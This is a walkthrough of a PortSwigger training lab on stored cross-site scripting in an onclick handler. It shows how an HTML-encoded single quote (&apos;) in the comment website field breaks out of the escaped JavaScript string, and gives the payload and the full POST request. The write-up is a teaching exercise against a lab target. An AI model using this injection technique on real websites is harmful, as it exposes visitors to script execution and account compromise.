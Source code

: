 
# Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

This lab contains a stored cross-site scripting vulnerability in the comment functionality.

To solve this lab, submit a comment that calls the alert function when the comment author name is clicked.

---------------------------------------------

References: 

- https://portswigger.net/web-security/cross-site-scripting/contexts



![img](images/Stored%20XSS%20into%20onclick%20event%20with%20angle%20brackets%20and%20double%20quotes%20HTML-encoded%20and%20single%20quotes%20and%20backslash%20escaped/1.png)

---------------------------------------------

There is a function to post comments:



![img](images/Stored%20XSS%20into%20onclick%20event%20with%20angle%20brackets%20and%20double%20quotes%20HTML-encoded%20and%20single%20quotes%20and%20backslash%20escaped/2.png)


It generates the following HTML code:



![img](images/Stored%20XSS%20into%20onclick%20event%20with%20angle%20brackets%20and%20double%20quotes%20HTML-encoded%20and%20single%20quotes%20and%20backslash%20escaped/3.png)


```
<a id="author" href="http://test4.com" onclick="var tracker={track(){}};tracker.track('http://test4.com');">test2</a>
```


We see single quote and backslash characters are indeed escaped and angle brackets and double quotes are HTML-encoded:



![img](images/Stored%20XSS%20into%20onclick%20event%20with%20angle%20brackets%20and%20double%20quotes%20HTML-encoded%20and%20single%20quotes%20and%20backslash%20escaped/4.png)


We will use “&apos;” next:

```
http://test4.com&apos;);alert(1);//
```

```
POST /post/comment HTTP/2
...

csrf=e8yz3UQ62qX7CBfs9PFEanjwdYjzbaMz&postId=1&comment=test1&name=test2&email=test3%40test.com&website=http%3A%2F%2Ftest4.com%26apos;);alert(1)%3b//
```

When clicking the username an alert pops:



![img](images/Stored%20XSS%20into%20onclick%20event%20with%20angle%20brackets%20and%20double%20quotes%20HTML-encoded%20and%20single%20quotes%20and%20backslash%20escaped/5.png)